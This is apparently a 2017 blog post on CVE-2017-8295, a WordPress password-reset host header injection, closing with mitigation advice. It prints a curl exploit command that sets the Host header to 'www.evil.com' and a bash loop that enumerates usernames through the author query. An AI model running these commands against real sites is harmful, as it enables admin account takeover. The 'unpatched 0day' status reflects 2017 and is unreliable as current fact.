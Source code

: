 +++
title = "The major Wordpress vulnerability running for 10 years"
slug = 'the-major-wordpress-vulnerability-running-for-10-years'
aliases = ['/post/the-major-wordpress-vulnerability-running-for-10-years']
date = '2017-11-16T07:37:24.000Z'
draft = false
tags = ["security","cyber","exploit","vulnerability","0day","wordpress"]
image = 'featured.jpg'
+++

Released publicly last April, the [CVE-2017-8295](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8295) is an unpatched Wordpress exploit (0day) that works on every version of the famous CMS until the last 4.8.3 (4.9 is under the hood too) release. This vulnerability consist in a host header injection when triggering the password reset function.

## Description of exploit

Following the [discovery of Dawid Golunski](https://exploitbox.io/vuln/WordPress-Exploit-4-7-Unauth-Password-Reset-0day-CVE-2017-8295.html) at ExploitBox.io it is possible to tamper the From field in the mail sent to user when requesting password reset. The email contain a reset password link that can be used by anyone to access Wordpress user session.

A simple command line can trigger this hack :

```bash
curl -H "Host: www.evil.com" --data "user_login=admin&redirect_to=&wp-submit=Get+New+Password" http://example.com/wp-login.php?action=lostpassword
```

The host set in the header will be used as the SERVER\_NAME in the email sent to the /usr/bin/sendmail wrapper.

It is important to know the user login of the target, but in most of the cases this nickname is available on the public profile page of the website or accessible via a non protected author [enumeration](https://hackertarget.com/wordpress-user-enumeration/).

```bash
for i in {1..5}; do curl -s -L -i http://example.com/?author=$i | grep -E -o "\" title=\"View all posts by [a-z0-9A-Z\-\.]*|Location:.*" | sed 's/\// /g' | cut -f 6 -d ' ' | grep -v "^$"; done
```

## Scenarios of attack

3 potential scenarios are described by the author : 

*   Perform a denial of service on the victim email address to exceed user's quota and force the email to be bounced back to the malicious from address.
*   In some cases, target may have set up an autoresponder on his account which will probably attached a copy of the email.
*   Try to interact with the victim by spaming the reset password emails and hope for a reply with the email attached.

## Solutions concerning this cyber threat

It is important to notice that this a 0day exploit which have been pushed to the Wordpress Security team since July 2016 and no modifications have been done. To prevent this attack, we advice to :

1.  Block user enumeration
2.  Move /wp-login.php to another place
3.  Change default admin account name

You may also disable password recovery functionality or PHP mail() function at your own risk.
